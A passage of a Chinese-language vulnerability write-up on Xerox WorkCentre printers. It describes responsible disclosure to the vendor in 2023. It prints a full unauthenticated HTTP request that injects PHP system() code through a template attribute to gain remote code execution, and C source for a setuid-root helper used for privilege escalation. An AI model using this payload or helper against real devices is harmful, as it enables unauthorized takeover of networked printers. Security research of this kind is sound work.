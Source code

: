 ```
var gDocumentInvocations              = '<!-- loa fn=HTTP_Parser_List_Invocations_fn arg="xrx_document" context="js" -->';

// [已编辑]
</script>

...

```  
  
这些预处理器指令是由C代码生成的，该C代码作为Apache模块加载，在PHP代码执行之前。  
  
在找到注入代码的正确位置后，我迅速获得了远程代码执行（RCE）：  
```
POST /userpost/xerox.set HTTP/1.1
Host: 192.168.0.10
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: [已编辑]

_fun_function=HTTP_Parser_Set_fn&DefaultParserFilename=%2Ftmp%2Ftemplate%2Fpool%2Fsystem%2FDEFAULT.XST&NextPage=%2Fscan%2Ftemplate.php%3FParserFilename%3D%2Ftmp%2Ftemplate%2Fpool%2Fweb%2Fabc.XST&ServiceName=xrx_svc_validation&InvocationName=1&AttributeName=MetaDataValidationServerProtocol&AttributeType=string&AttributeValue=111111111%0A%0A%0A<?php+echo+system("ifconfig");exit;?>%0A%0A222222222&Action=update&CopyParserFilename=abc.XST

```  
  
这个漏洞可能难以复现。Apache模块对输入参数敏感，包括它们的顺序。不同型号的施乐打印机之间可能存在差异，该模块也有缓存。  
  
要利用它，更容易截获来自下面界面的请求，该界面可以从主页访问，无需任何认证，并修改MetaDataValidationServerProtocol属性：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZEkT0Rn34yFT9LswNkJKf6sOiaXia3pIExfFxyn2HbQn5bHr3uiacB4HtG5GgnXlvg8w3FkicBdLEQf1iaQDPauEapw/640?wx_fmt=png&from=appmsg "")  
  
模板界面  
  
我们在2023年6月向施乐报告了这个漏洞，以及我偶然发现的两个未认证的缓冲区溢出。根据施乐的说法，所有报告的漏洞都在同一个月得到了修复。然而，在施乐网站上没有发布或找到任何安全公告或CVE。  
  
由于施乐目前是CNA（CVE Numbering Authorities），我们不能自己为这些问题请求CVE。  
## 权限提升和USB接口  
  
在施乐WorkCentre上进行权限提升是直接的，因为设备上除了Apache和PostgreSQL之外的每个守护进程都以root权限运行。  
  
我不能透露提升权限的确切方法，但我可以分享suid二进制的C代码：  
```
#define _GNU_SOURCE
#include <unistd.h>
#include <sys/syscall.h>
#include <sys/types.h>
 
int _start(void) {
    asm volatile ("mr 3, 1;"
                  "bl __main;");
}
 
int __main(void *sp[])
{
    syscall(SYS_setuid, 0, 0, 0);
    syscall(SYS_setgid, 0, 0, 0);
 
    syscall(SYS_execve, sp[2], &sp[2], 0);
 
    return 0;
}

```  
  
